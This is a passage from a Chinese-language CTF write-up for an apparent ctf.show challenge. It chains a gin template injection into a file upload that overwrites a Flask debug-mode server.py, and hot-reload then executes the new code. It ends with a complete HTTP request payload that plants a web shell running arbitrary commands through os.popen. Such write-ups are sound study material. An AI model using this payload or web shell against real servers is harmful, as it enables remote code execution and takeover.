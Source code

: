 flask 开了 debug 模式后，在 debug 模式下 flask 会动态更新源码的内容“热更新”，所以思路是通过 `FormFile`和 `SaveUploadedFile`上传文件覆盖掉之前的 flask 源码。

> debug 攻击点一般采用算 pin 和 debug 热加载，这里尝试过算 pin 发现不能携带 cookie，不能直接命令执行，所以使用热加载。

最后因为模版编译前会通过 html 编码把单双号转义，所以需要换个方式传入字符串，发现 `gin.Context`里面包装了 `Request`和 `ResponseWriter`, 这里随便找了个 `Request.UserAgent()`

```bash
// UserAgent returns the client's User-Agent, if sent in the request.
func (r *Request) UserAgent() string {
    return r.Header.Get("User-Agent")
}
```

文件上传 server.py 覆盖原来的代码，然后访问修改后的路由，flask 在处理的时候发现内存中的代码和源码中不同则会自动重启，这样我们就能构造恶意代码了

最终 payload

```bash
/admin?name={{c.SaveUploadedFile(c.FormFile(c.ClientIP()),c.Query(c.ClientIP()))}}&自己的 ip=/app/server.py HTTP/1.1 //自己的 ip 可以通过模板注入{{c.ClientIP()}}查看
Host: 40802932-2116-47e3-8daa-197a8c7f52d7.challenge.ctf.show
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrxtSm5i2S6anueQi
User-Agent:  /app/server.py
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga=GA1.2.302713316.1678960921; session-name=MTY5MDc3MzU2MHxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXzuHa5qg0Ih9XrL5lJnL_2P1GR4TmLkG4O6giX1tuQtxQ==
Upgrade-Insecure-Requests: 1
Content-Length: 545

------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="/app/server.py"; filename="server.py"
Content-Type: text/plain

from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/shell')
def shell():
    cmd = request.args.get('cmd')
    if cmd:
        return os.popen(cmd).read()
    else:
        return 'shell'

if __name__== "__main__":
    app.run(host="127.0.0.1",port=5000,debug=True)
------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="submit"
```
